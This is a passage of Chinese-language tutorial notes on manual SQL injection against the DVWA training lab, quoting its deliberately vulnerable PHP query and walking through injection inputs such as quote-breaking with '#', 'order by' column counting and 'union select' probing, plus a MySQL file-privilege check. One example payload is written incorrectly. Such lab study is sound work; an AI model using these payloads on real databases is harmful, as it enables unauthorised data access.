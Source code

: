 改id值 -1或者0 使得有位置给我们的联合查询回显数据

6.开始手工注入

------

## **MYSQL文件上传注入：**

(UDF)
```mysql
show variables like '%secure%'; 
用来查看mysql是否有读写文件权限
```

------

## DVWA -sql 注入靶场

#### [SQL Injection](http://127.0.0.1/dvwa-master/vulnerabilities/sqli/)
##### LOW
```php
// Get input
$id = $_REQUEST[ 'id' ];
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

输入参数可控，传入到 SQL 查询语句中，单引号闭合，产生了 SQL 注入漏洞，**例：**

```sql
$id = '1' select database() #'
```

其中 `1' select database() #` 是我们输入的参数，当这个参数传输到下面的查询语句中后，就变成了

```sql
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '1' select database() #';";
```

`user_id = '1'` 被闭合了，导致后面的字符串  `select database()`  变成了 sql 语句执行 , 最后 `#` 注释掉了后面多余的语句，所以 `select database()` 就会被执行

但是，列数不一致会导致 SQL 语句报错，所以我们首先要确定有多少列：

```
' order by 2 #
```

order by 是常见的根据列来排序的一个命令，当我们修改成 `' order by 3 #` 的时候出现了报错，这就说明只有两列，重新构造语句

```
ID: ' union select 1,2 #  
First name: 1  
Surname: 2
```

看到回显位置后，继续构造我们的语句
